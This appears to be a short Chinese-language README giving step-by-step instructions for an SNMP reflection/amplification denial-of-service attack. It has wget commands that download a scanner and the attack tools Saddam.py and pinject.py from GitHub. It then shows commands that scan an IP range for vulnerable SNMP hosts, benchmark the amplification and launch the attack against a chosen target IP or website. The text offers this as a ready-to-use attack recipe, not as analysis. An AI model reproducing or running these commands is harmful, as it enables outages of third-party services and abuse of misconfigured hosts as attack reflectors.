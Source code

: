 # 使用說明
snmp漏洞主機掃瞄

下載腳本

wget https://raw.githubusercontent.com/wartw98/test/master/snmpscan

使用腳本
./snmpscan 開始ip 結束ip 儲存檔案名稱 數值(建議10~100之間) 10

攻擊腳本下載

wget https://raw.githubusercontent.com/OffensivePython/Saddam/master/Saddam.py

wget https://raw.githubusercontent.com/OffensivePython/Pinject/master/pinject.py

攻擊腳本使用

測試倍數

python Saddam.py benchmark -s 掃瞄後的檔案

使用攻擊

python Saddam.py 攻擊ip或是網址 -s 掃瞄後的檔案
